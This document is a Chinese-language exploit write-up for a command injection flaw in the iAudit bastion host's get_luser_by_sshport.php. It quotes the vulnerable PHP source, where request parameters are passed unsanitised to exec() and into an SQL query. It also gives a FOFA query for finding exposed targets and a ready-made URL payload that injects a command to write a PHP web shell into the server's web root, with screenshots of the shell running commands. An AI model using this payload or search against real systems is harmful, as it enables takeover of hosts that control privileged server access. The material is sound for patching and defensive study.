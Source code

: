 # 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
中远麒麟 iAudit堡垒机
```

## FOFA

```
cert.subject="Baolei"
```

## 漏洞复现

登录页面如下

![image-20220525100240635](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251002739.png)

出现漏洞的文件为 get_luser_by_sshport.php

```
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```

其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 `/opt/freesvr/web/htdocs/freesvr/audit/`

发送Payload

```
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```

![image-20220525100301367](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251003398.png)

再访问写入的文件执行命令

![image-20220525100311413](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251003445.png)